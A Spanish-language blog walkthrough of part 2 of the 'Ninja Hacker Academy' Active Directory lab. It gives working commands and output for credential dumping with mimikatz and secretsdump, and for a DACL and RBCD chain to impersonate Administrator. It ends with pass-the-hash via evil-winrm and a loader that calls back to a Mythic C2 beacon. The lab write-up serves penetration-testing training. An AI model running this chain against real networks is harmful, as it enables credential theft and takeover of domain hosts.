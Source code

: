 ```yaml
---
layout: single
title: Ninja Hacker Academy Parte 2
excerpt: "En esta segunda parte, recolectaremos la data de bloodhound, ejecutaremos mimikatz en el sistema comprometido para oobtener credenciales y haremos movimiento lateral a otro sistema en la red."
date: 2025-09-22
classes: wide
header:
  teaser: /assets/images/NHA/logo_NHA.jpeg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```



<p align="center">
  <img src="/assets/images/NHA/logo_NHA.jpeg" alt="Logo NHA" style="max-width:60%; height:auto;">
</p>

# Introducción
En esta segunda parte, recolectaremos la data de bloodhound, ejecutaremos mimikatz en el sistema comprometido para oobtener credenciales y haremos movimiento lateral a otro sistema en la red.

Partimos del contexto en el que tenemos dos beacons del sistema sql, con la ip 192.168.56.21, uno con la cuenta NT AUTHORITY\NETWORK SERVICE, y otro con privilegios de SYSTEM.

Vamos a editar el fichero hosts de nuestra máquina atacante, para que pueda resolver los nombres de las máquinas del laboratorio. Para ello, netexec nos facilita la tarea, de esta forma:

```bash
nxc smb 192.168.56.0/24 --generate-hosts-file hosts.txt
```

![](/assets/images/NHA/hosts.png)

Una de las tareas más importantes a la hora de ejecutar un pentesting en un entorno de active directory, es obtener la data de bloodhound, para poder enumerar en condiciones todo el entorno. Para ello, es posible ejecutar en memoria SharpHouind.exe desde Mythic, que nos proporcionará lo que necesitamos.

Con register_assembly lo cargamos en Mythic, y con execute_assembly lo ejecutamos.

![](/assets/images/NHA/sharphound.png)

```bash
execute_assembly SharpHound.exe -c All,GPOLocalGroup
```
![](/assets/images/NHA/sharphound2.png)

Ahora es posible descargarlo para analizarlo desde bloodhound.

![](/assets/images/NHA/download_blood.png)

Además vamos también a ejecutar mimikatz desde mythic, para intentar obtener hashes que nos puedan servir para movernos lateralmente.

```bash
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"
```

![](/assets/images/NHA/mimi.png)

Y obtenemos el hash ntlm de la cuenta de máquina sql$

```
* Username : SQL$
	 * Domain   : ACADEMY
	 * NTLM     : 87301c6906621fb1b4973ec2b2f4d937
	 * SHA1     : f52af5354b64f68fb9deef15e3a37de252d017e9
	 * DPAPI    : f52af5354b64f68fb9deef15e3a37de2
```


Si nos vamos a bloodhound y buscamos la cuenta de máquina sql, vemos que tiene GenericAll sobre un contenedor llamado computers, y bloodhound nos sugiere utilizar dacledit con el parámetro -inheritance, para que se hereden los permisos a todos los objetos que hayan dentro del contenedor.

![](/assets/images/NHA/bloodhound3.png)

```bash
dacledit.py -action "write" -principal SQL$ -target-dn "CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN" "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937 -inheritance
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250926-194525.bak
[*] DACL modified successfully!
```

![](/assets/images/NHA/dacledit.png)

Ahora, si actualizamos la data de bloodhound, volviendo a ejecutar el comando de antes, descargando el nuevo archivo y subiéndolo a bloodhound vemos que tenemos GenericAll también sobre la máquina web$. Y además nos sugiere que utilicemos la técnica RBCD (Resource-Based Constrained Delegation).

![](/assets/images/NHA/bloodhound4.png)

Con lo cual vamos a seguir los pasos que nos indica bloodhound, adaptando los comandos al entorno. Lo primero, creamos una cuenta de máquina llamada ximo$ con la contraseña Password123!

```bash
addcomputer.py -computer-name 'ximo$' -computer-pass 'Password123!' -dc-host academy.ninja.lan "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account ximo$ with password Password123!.
```

![](/assets/images/NHA/addcomputer.png)

Ahora es posible crear la delegación utilizando otro comando de impacket (rbcd)

```bash
rbcd.py -delegate-from 'ximo$' -delegate-to 'web$' -dc-ip 'academy.ninja.lan' -action 'write' "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ximo$ can now impersonate users on web$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ximo$        (S-1-5-21-491962646-2799345496-3044782539-1137)
```

![](/assets/images/NHA/rbcd.png)

Ahora podemos solicitar un ticket de servicio usando getST.py para el servicio CIFS, y vamos a impersonar al usuario Administrador.

```bash
getST.py -spn 'cifs/web.academy.ninja.lan' -impersonate Administrator -dc-ip 'academy.ninja.lan' "academy.ninja.lan"/"ximo$":"Password123\!"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_web.academy.ninja.lan@ACADEMY.NINJA.LAN.ccache
```

![](/assets/images/NHA/getst.png)

Exportamos la variable de entorno para poder utilizar el ticket obtenido

```bash
export KRB5CCNAME=Administrator@cifs_web.academy.ninja.lan@ACADEMY.NINJA.LAN.ccache
```

Y ya podemos utilizar netexec para autenticarnos en la máquina web con el usuario Administrator, y volcar los hashes de la máquina.

```bash
nxc smb 192.168.56.21 -k --use-kcache
SMB         192.168.56.21   445    WEB              [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB) (domain:academy.ninja.lan) (signing:False) (SMBv1:False)
SMB         192.168.56.21   445    WEB              [+] academy.ninja.lan\Administrator from ccache (Pwn3d!)
```
![](/assets/images/NHA/kcache.png)

```bash
secretsdump.py administrator@web.academy.ninja.lan -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x740c8677f51ec010b35e0195e51bed3c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0c532fcf2046010cb8d38eedf5e45312:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6d587fe93bb333e51b07759bc056d261:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
ACADEMY\WEB$:plain_password_hex:2d00620042002a0025003f00670030006a003c002400600045002900230052006600400037004f0057002c00760027005d00200068006f003c004f0046004700540077003400310064005b007a0048004600270037002f003500650024003f005800560041004f006e00350032003b002100590073007800560070004a00500045003e003e006a00700041002d00330071006f004f00480070003f002a0035004a00620042004c0066007a0052006d004a005e0076004e005c00460079006e0056003c003c003e0079004c007a0066006700730066003e005000490053004e0055004100360037002900220049005100
ACADEMY\WEB$:aad3b435b51404eeaad3b435b51404ee:2867f65a4e9e216947e1f2703c618730:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0xa730ebdd56bc3da3e79b6dc4f5dfd7b19f354248
dpapi_userkey:0x1984dedd875722fce8677694599f4bc7ef0c1776
[*] NL$KM
 0000   6A 2F A7 33 55 6E B4 2D  26 EA 27 3B 9B C0 A2 5C   j/.3Un.-&.';...\
 0010   D6 5C CC CC 8C 6A 7B 82  D1 83 BC 0B 4F 1A 89 42   .\...j{.....O..B
 0020   66 4F 98 75 84 97 FF AE  F4 C4 7A 60 0D 6A 41 DA   fO.u......z`.jA.
 0030   75 B3 F0 BD 65 28 BD 52  06 8C 06 AA DB BB A1 9A   u...e(.R........
NL$KM:6a2fa733556eb42d26ea273b9bc0a25cd65ccccc8c6a7b82d183bc0b4f1a8942664f98758497ffaef4c47a600d6a41da75b3f0bd6528bd52068c06aadbbba19a
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```

A continuación podemos conectarnos con evil-winrm y ejecutar nuestro loader para recibir el beacon en mythic.

```bash
evil-winrm -i 192.168.56.21 -u administrator -H 0c532fcf2046010cb8d38eedf5e45312
upload SimpleLoader.exe
.\SimpleLoader.exe
```






